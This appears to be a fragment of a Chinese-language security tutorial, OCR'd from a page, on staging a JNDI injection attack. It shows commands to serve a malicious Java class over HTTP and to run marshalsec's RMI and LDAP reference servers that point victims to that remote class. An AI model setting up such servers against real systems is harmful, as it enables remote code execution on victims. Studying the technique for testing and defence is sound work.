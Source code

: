 起web服务,编译恶意的class文件

```
py -3 -m http.server 8081
```

![image-20220213232323685](images/5.png)

# 利用marshalsec起RMI和LDAP服务

因为自己起RMI服务确实麻烦,在实际中肯定多是用工具去起RMI和LDAP服务,所以用到了marshalsec这个反序列化工具去起服务

下载地址: https://github.com/mbechler/marshalsec

自述文档中给了编译方法：装有java8，使用`mvn clean package -DskipTests`编译

解决mvn命令的问题:https://blog.csdn.net/will__be/article/details/117412180

编译后会多一个target文件夹,里面有两个jar包

**使用方法**

```
#rmi服务器，rmi服务起在8088 恶意class在http://ip:8080/文件夹/#ExportObject 
#不加8088端口号 默认是1099
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:8080/文件夹/#ExportObject 8088
```

```
#LDAP服务器，LDAP服务起在8088 恶意class在http://ip:8080/文件夹/#ExportObject 
#不加8088端口号 默认是1389
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:8080/文件夹/#ExportObject 8088
```
